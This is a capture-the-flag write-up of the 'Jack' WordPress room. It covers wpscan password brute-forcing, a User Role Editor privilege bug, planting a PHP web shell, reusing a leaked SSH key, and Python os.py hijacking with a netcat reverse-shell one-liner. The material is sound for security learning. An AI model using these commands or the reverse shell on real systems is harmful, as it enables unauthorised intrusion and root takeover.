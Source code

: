 # Jack

This one was hard. Several new things learned. And I unashamedly used both the tips on the room and light pointers in the right direction from some online sources.

"Compromise a web server running Wordpress, obtain a low privileged user and escalate your privileges to root using a Python module."

1. Recon showed 22 and 80. Sure enough a wpscan sat on 80.

2. `wpscan` revealed three users: jack, wendy and danny. 

    The hint for the user flag was "Wpscan user enumeration, and don't use tools (ure_other_roles)". This reveals two things: 
    
    First, `ure_other_roles` is a tip to an exploit with the user role editor plugin (which I confirmed was there by navigating to `http://jack.thm/wp-content/plugins/user-role-editor/readme.txt`). The vuln is trivial: when saving a profile in the editor, you can add `&ure_other_roles=administrator` to the post body and it will grant the user admin roles. 
    
    Importantly though, this requires being logged in as a low-priv user. The wpscan user enumeration is typically used with a brute force attack (again using wpscan).

    > At this point I got stuck. But thats okay, because so did everyone else from what I can see. The standard word list you use for bruteforcing is rockyou.txt, but it wasn't working (ran it for two hours, no luck, which is usually a hint your'e going in the wrong direction)
    >
    > I tried several other wordlists from seclists with no luck.
    > 
    > The answer was both simple and a huge surprise. I was convinced that in kali, there is only one file under `/usr/share/wordlists`: rockyou. However, there is *actually a second wordlist there*, `fasttrack.txt`. I was as surprised as everyone else's walkthrough I checked.

3. `wpscan --url jack.thm -U wendy,danny -P /usr/share/wordlists/fasttrack.txt` quickly picked up a password for wendy: `changelater`

4. Once into the site, I used the vulnerability with the user role editor to grant wendy admin rights (used burp to intercept the 'Update Profile' POST, added the extra body param, and forwarded the request on).

5. I replaced the content of the akismet plugin's `index.php` with [p0wny shell](https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php) (probably overkill - could have added a new file or uploaded something), then browsed to `http://jack.thm/wp-content/plugins/akismet/index.php` to get a web shell.

6. In the user directory were two text files: `user.txt` and `reminder.txt`. The first contained the user flag: `0052f7829e48752f2e7bf50f1231548a`

7. The second contained: `Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.`. From this I went looking for backups (`locate backups`) and found a suspicious `/var/backups/id_rsa`.

8. I copied this to my attacker machine, changed its permissions with `chmod 600 id_rsa`, then used `ssh -i id_rsa jack@jack.thm` to log on as jack.

9. The final escalation hint was "Python". From the room description I knew this was a 'python module escalation', which I hadn't heard of before.

    > I did a google and found this article: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/, The whole thing is worth a read, and from it I solved this final challenge.
    >
    > Basically, if a python script you can't edit directly is being run by root, but it imports something that you have the ability to alter either by: 
    >
    > - putting a same named file in any of the search directories python uses for import sources; 
    > - or by editing the module file directly, 
    > 
    > Then you can get code execution by reference.

10. I ran a search (`find / -name "*.py" -user root 2>/dev/null`) to find suspicious files. On the giant results list, the very first file was  suspicious: `/opt/statuscheck/checker.py`. Next to it was an `output.log` containing header information for the wordpress site, updated every two minutes. The `checker.py` file contained:

    ```python
    import os

    os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
    ```

    I could see updates entering the log file every two minutes via `cat /opt/statuscheck/output.log | tail`

11. I couldn't modify the file. Nor could I modify any of the source directories python looked into (I checked this with a little bash scripting: `for path in $(python -c 'import sys; print "\n".join(sys.path)'); do namei -l $path ; done`. note the use of `namei -l` to get a full list of file/folder permissions for each entry). However I did discover that `os.py` under `/usr/lib/python2.7` *WAS* writable (checked via `for path in $(locate os.py); do namei -l $path; done`).

12. Adding a python shell to this proved problematic - python shells typically use functionality *from* `os.py`, after all. Ultimately, the solution was to open `os.py`, go to the bottom, and add a new line: `system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.203.251 4444 >/tmp/f')`. The nice nc reverse shell for when all you have is `nc.openbsd` (as was the case on this machine). I tested this (getting an unpriviliged shell) via `python -c "import os"`

13. Went back to my attacker machine, opened a reverse listener, and within a minute I had a root shell! The final flag at `/root/root.txt` was `b8b63a861cc09e853f29d8055d64bffb`.

Overall a very tough room, but also simple in its individual elements. Things I learned:

- `fasttrack.txt`!
- `ure_other_roles` exploit (worth keeping in mind if I find myself with a low-priv wordpress user)
- clever uses of `locate` and bash scripting. also `namei -l`
- python module privesc :)
